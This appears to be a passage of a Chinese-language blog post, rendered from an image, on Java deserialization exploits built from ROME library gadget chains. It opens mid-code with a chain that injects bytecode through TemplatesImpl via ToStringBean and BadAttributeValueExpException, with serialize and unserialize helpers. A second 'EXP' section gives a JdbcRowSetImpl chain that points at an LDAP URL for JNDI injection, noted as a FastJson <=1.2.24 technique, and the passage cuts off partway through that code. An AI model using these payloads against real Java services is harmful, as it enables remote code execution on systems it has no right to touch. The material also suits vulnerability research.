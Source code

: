 ```bash
        setValue(templates,"_bytecodes",codes);


        ToStringBean toStringBean = new ToStringBean(Templates.class,templates);

        BadAttributeValueExpException badAttributeValueExpException = new BadAttributeValueExpException(null);
        Class Bv = Class.forName("javax.management.BadAttributeValueExpException");
        Field val = Bv.getDeclaredField("val");
        val.setAccessible(true);
        val.set(badAttributeValueExpException,toStringBean);

//        serialize(badAttributeValueExpException);
        unserialize("ser.bin");
    }




    public static void serialize(Object obj) throws IOException {
        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("ser.bin"));
        oos.writeObject(obj);
    }

    public static Object unserialize(String Filename) throws IOException,ClassNotFoundException{
        ObjectInputStream ois = new ObjectInputStream(new FileInputStream(Filename));
        Object obj = ois.readObject();
        return obj;
    }
}
```

## EXP(JdbcRowSetImpl):

JdbcRowSetImpl 在 FastJson 中在<=1.2.24 时使用的一个链子，这是针对后半段动态类加载不出网换成出网的操作：

```bash
package EXPROME;

import com.sun.rowset.JdbcRowSetImpl;
import com.sun.syndication.feed.impl.EqualsBean;
import com.sun.syndication.feed.impl.ToStringBean;
import org.apache.commons.collections4.functors.ConstantTransformer;
import java.io.*;
import java.lang.reflect.Field;
import java.util.HashMap;

public class RomeJdbc {
    public static void main(String[] args) throws Exception{
        JdbcRowSetImpl jdbcRowset = new JdbcRowSetImpl();
        String url = "ldap://127.0.0.1:8085/zARQtFym";
        jdbcRowset.setDataSourceName(url);



        ToStringBean toStringBean = new ToStringBean(JdbcRowSetImpl.class,new ConstantTransformer(1));
        EqualsBean equalsBean = new EqualsBean(ToStringBean.class,toStringBean);

        HashMap<Object,Object> hashMap = new HashMap<>();
        hashMap.put(equalsBean,"123");

        //再改回正常的参数
```